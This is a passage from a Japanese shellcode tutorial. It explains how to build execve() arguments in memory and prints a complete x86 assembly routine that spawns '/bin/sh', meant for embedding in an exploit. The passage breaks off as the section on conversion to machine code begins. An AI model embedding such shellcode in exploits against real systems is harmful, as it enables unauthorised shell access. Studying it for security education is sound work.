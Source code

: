 ●execve()の引き数データ

　前のコードではexecve()への第一引き数と第二引き数を別のアドレスに設定し
ていました。これはスタンドアロン用のプログラムであれば実現できるのですが、
今回のような使用目的には利用できません。そこで「/bin/sh」を確保しているメ
モリの後に続けて第二引数用の文字列を設定します。

    ffffb0          ffffb7
\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-\-\-\-
    | / b i n / s h | 00 | ffffb0 | 00 | 
\-\-\-\-+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-\-\-\-\-+\-\-\-\-+\-\-\-\-\-\-\-

　これにはlea命令の所で紹介したオフセットを利用します。オフセットはlea以
外の命令でも使えます。ebxにffffb0が、eaxに0が入っているとすると、「movl 
%eax, 7(%ebx)」はffffb0+7の場所に0を入れるという意味になります。文字列の
終わりには0をいれて置かなければならないので、「/bin/sh」の直後に0を入まし
た。同じように「movl %ebx, 8(%ebx)」とやればffffb0をffffb8の場所に入れる
ことになります。
　ここまでできれば、ebxには文字列のアドレスが入っていますし、ecxにebxの中
のアドレス+8のアドレスをleaで入ればexecve()の引き数が作れます。

●できあがったコード

　以上の問題点を解決したコードのサンプルを次に示します。

```s
.globl main

main:
    jmp    ONE

TWO:
    popl   %ebx
    xorl   %eax,   %eax
    movl   %eax,   7(%ebx)
    movl   %ebx,   8(%ebx)
    movl   %eax,   12(%ebx)
    movb   $11,    %al
    leal   8(%ebx),   %ecx
    leal   12(%ebx),  %edx
    int    $0x80

ONE:
    call    TWO
    .string "/bin/sh"
```

　それでは次章以降で、このコードを機械語に変換し、exploitに埋め込んで動作
させて見ましょう。


### 0x07 バイトコードへの変換

　バイトコードは機械語コードのことですが、ソースコードを機械語に変換する
にはコンパイラを用います。アセンブリ言語はアセンブラというソフトで機械語
に変換しますが、以前紹介したgccはアセンブラも兼ねています。先ほどのコード
にshellcode.sという名前をつけた場合には次のようにしてコンパイルします。
